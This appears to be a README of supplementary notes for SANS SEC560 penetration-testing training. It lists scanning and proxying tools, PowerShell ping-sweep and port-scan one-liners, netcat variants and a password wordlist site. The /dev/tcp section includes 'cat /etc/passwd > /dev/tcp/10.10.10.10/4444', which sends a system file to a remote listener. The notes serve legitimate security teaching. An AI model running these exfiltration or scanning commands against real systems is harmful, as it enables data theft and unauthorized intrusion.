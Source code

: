 # 560-Extras
Notes and other extras related to SANS SEC560

## Day 1


## Day 2


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

PowerShell port scan example: 70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Bash /dev/tcp fun

Connect to a port: echo "" > /dev/tcp/142.250.138.139/443

Send a file: cat /path/to/file > /dev/tcp/ip/port
  ex: cat /etc/passwd > /dev/tcp/10.10.10.10/4444

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

telnet ip port


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year:

http://weakpasswords.net/


## Day 3

## Day 4

## Day5
